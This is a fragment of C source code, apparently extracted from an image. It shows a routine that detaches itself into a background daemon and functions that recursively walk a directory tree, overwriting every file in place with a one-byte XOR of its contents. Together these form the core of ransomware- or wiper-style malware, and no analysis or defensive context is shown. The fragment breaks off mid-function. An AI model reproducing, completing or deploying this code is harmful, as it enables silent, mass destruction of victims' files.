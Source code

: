 ```sh
}

void daemonize() {
    pid_t pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);
    
    if (setsid() < 0) exit(EXIT_FAILURE);
    
    signal(SIGCHLD, SIG_IGN);
    signal(SIGHUP, SIG_IGN);
    
    pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);
    
    umask(0);
    chdir("/");
    
    for (int x = sysconf(_SC_OPEN_MAX); x >= 0; x--) {
        close(x);
    }
}

void encrypt_file(const char *path, unsigned char key) {
    int fd = open(path, O_RDWR);
    if (fd < 0) return;
    
    off_t size = lseek(fd, 0, SEEK_END);
    lseek(fd, 0, SEEK_SET);
    
    unsigned char *buffer = malloc(size);
    if (!buffer) {
        close(fd);
        return;
    }
    
    read(fd, buffer, size);
    
    for (off_t i = 0; i < size; i++) {
        buffer[i] ^= key;
    }
    
    lseek(fd, 0, SEEK_SET);
    write(fd, buffer, size);
    close(fd);
    free(buffer);
}

void encrypt_directory_recursive(const char *path, unsigned char key) {
    DIR *dir = opendir(path);
    if (!dir) return;
    
    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;
            
        char full_path[1024];
        snprintf(full_path, sizeof(full_path), "%s/%s", path, entry->d_name);
        
        if (entry->d_type == DT_DIR) {
            encrypt_directory_recursive(full_path, key);
```